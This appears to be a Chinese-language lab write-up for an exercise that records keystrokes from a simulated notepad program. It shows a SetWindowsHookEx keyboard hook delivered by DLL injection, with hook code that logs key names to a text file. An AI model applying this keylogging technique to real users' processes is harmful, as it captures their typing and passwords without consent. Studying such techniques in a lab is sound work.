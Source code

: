 # 第一题——键盘精灵

**目标：**实现针对模拟记事本程序的按键信息记录




## 实现

包含两个代码，一个是dll的一个是inject的

inject:

```cpp
/** 
 * compile: gcc inject.c -m32 -o inject
 * Usage: injector.exe
 * 
 * Inject dllmain.dll to KeyLogText.exe. 
 */
```

dllmain:

```cpp
/**
 * compile: gcc dllmain.c -o dllmain.dll
 */
```

为了方便，使用了相对路径，将dllmain.dll和inject.exe放在了同一个文件夹，将程序的按键信息记录到C:\\Documents and Settings\\Administrator\\show.txt文件中。

**运行步骤：**
首先，运行键盘精灵程序，然后运行inject.exe，再在指示的输入框内输入测试，最后打开show.txt可以看到记录的按键信息。

主要讲一下重要的两个函数SetWindowsHookEx和KeyboardProc。

设置钩子函数SetWindowsHookEx拦截消息,监听KeyLogText.exe进程

```
    hook = SetWindowsHookEx(
    WH_KEYBOARD, // 监听类型【键盘消息】
    (HOOKPROC)KeyboardProc, // 处理函数
    hdll, // dll的句柄
    getThreadID(getPID("KeyLogText.exe")) // 监听线程ID
    );
```

键盘钩子处理过程：当按键为特殊字符时，用函数GetKeyNameText获取虚拟键的名字，例如，当按下“shift”时，其显示为“< shift >”；字母数字都正常输出。

```
LRESULT CALLBACK KeyboardProc(int nCode,WPARAM wParam,LPARAM lParam)
{
    //将输入的记录到log。。。。。。。。。

    if(nCode >= 0){
        if(!(lParam & 0x80000000)){
            fp = fopen("C:\\Documents and Settings\\Administrator\\show.txt","a+");
            if(fp != NULL){
                char str[20] = {0};
                int len = GetKeyNameText(lParam, str, 20);
                if(len > 1)
                    fprintf(fp, "<%s>", str );
                else
                    fprintf(fp, "%s", str );
                fclose(fp); 
            }else printf("error open file!\n");
        }
    }
    return CallNextHookEx( hook, nCode, wParam, lParam );  
   
}
```

另外，在unhook之前设定了定时，时间到了之后将不再处理。

```
    for (i = 0; i < 30; i++)
    {
        Sleep(2000);
    }
```


## 效果

![result](result.png)